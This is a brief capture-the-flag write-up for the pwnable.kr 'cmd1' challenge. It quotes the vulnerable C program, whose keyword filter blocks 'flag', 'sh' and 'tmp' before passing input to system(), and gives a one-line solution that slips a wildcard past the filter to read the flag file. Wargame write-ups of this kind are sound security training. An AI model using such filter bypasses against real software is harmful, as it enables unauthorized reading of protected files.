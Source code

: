# pwnable.kr -- Toddler's Bottle -- cmd1
This is very easy. You just insure that there is not `"flag"`, `"sh"`, `"tmp"` substring in your argv[1] and then you can get the flag.

## 1. Challenge
  > Mommy! what is PATH environment in Linux?
  >   
  > ssh cmd1@pwnable.kr -p2222 (pw:guest)

## 2. Solution
  * Connect target and see what `cmd.c` writes:
    ```c
    #include <stdio.h>
    #include <string.h>

    int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
    }
    int main(int argc, char* argv[], char** envp){
        putenv("PATH=/fuckyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
    }

    ```

  * As what I said at the beginning: you just insure that there is not `"flag"`, `"sh"`, `"tmp"` substring in your argv[1] and then you can get the flag.

  * The simplest way is to let argv[1] be `"/bin/cat fla*"`, so just type:
    ```bash
    $ ./cmd1 "/bin/cat fla*"
    ```
    then it is done. 
